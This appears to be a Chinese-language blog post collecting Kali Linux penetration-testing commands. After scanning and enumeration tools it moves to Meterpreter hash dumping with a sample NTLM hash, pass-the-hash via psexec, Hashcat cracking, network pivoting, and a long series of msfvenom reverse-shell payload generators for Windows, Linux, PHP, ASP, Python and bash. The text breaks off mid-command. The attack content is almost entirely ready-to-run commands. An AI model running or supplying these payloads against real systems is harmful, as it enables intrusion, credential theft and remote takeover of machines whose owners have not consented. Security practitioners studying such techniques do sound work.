 ```yaml
---
author: 星火燎原@vxhly
title: kali 下渗透测试的一些小技巧
category: [pentest]
tag: [Pentest, Security, Liunx]
date: 2017-05-20 13:23:12
---
```


::: tip 前言

总结在渗透测试上的一些小技巧, 基本上都是 kali 下的一些常用的工具使用集合。

:::

<!-- more -->

## DIRB

### 使用 DIRB 爆破目录

注: [DIRB](http://dirb.sourceforge.net/) 是一个专门用于爆破目录的工具, 在 Kali 中默认已经安装, 类似工具还有国外的 [patator](http://github.com/lanjelot/patator), [dirsearch](http://github.com/maurosoria/dirsearch), [DirBuster](http://www.owasp.org/index.php/Category: OWASP_DirBuster_Project), 国内的御剑等等。

```bash
dirb http://[IP]:PORT /usr/share/dirb/wordlists/common.txt
```

## Niko

### 使用 Nikto 扫描 Web 服务

```bash
nikto -C all -h http://[IP]
```

## wpscan

### 使用 wpscan 扫描 WordPress

```bash
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url <http:http://[IP]/> –enumerate p
```

## httprint

### 使用 httprint 进行 HTTP 指纹识别

```bash
wget //www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://[IP] -s signatures.txt
```

## Skipfish

### 使用 Skipfish 进行 Web 应用安全

注: Skipfish 是一款 Web 应用安全侦查工具, Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图, 最终生成的地图会在通过安全检查后输出。

```bash
skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://[IP]
```

## nc

### 使用 nc 进行扫描

```bash
nc -v -w 1 target -z 1-1000
for i in {101..102};do nc -vv -n -w 1 192.168.56.$i 21-25 -z;done
```

## us

### 使用 Unicornscan 进行信息收集和安全审计

```bash
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

# -H 在生成报告阶段解析主机名
# -m 扫描类型 (sf - tcp, U - udp)
# -Iv - 详细
```

## Xprobe2

### 使用 Xprobe2 识别操作系统指纹

```bash
xprobe2 -v -p tcp:80:open IP
```

## Meterpreter

### 使用 Meterpreter 进行端口转发

```bash
# //www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址

meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```

### 使用 Meterpreter 获取哈希值

```bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash http://[IP] cmd

# 或者

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

# 在或者

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```

#### 使用 Hashcat 破解密码

```bash
hashcat -m 400 -a 0 hash /root/rockyou.txt
```

### 使用 metasploit 进行穿透

```bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

#或者

# //www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

## ssh

### SSH 穿透

```bash
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```

### SSH 穿透从一个网络到另一个网络

```bash
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```

## msfvenom

### MSF Payloads

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```

### MSF 生成在 Linux 下反弹的 Meterpreter Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```

### MSF 生成反弹 Shell (C Shellcode)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```

### MSF 生成反弹 Python Shell

```bash
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```

### MSF 生成反弹 ASP Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```

### MSF 生成反弹 Bash Shell

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```

### MSF 生成反弹 PHP Shell

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```

### MSF 生成反弹 Win Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Co
```
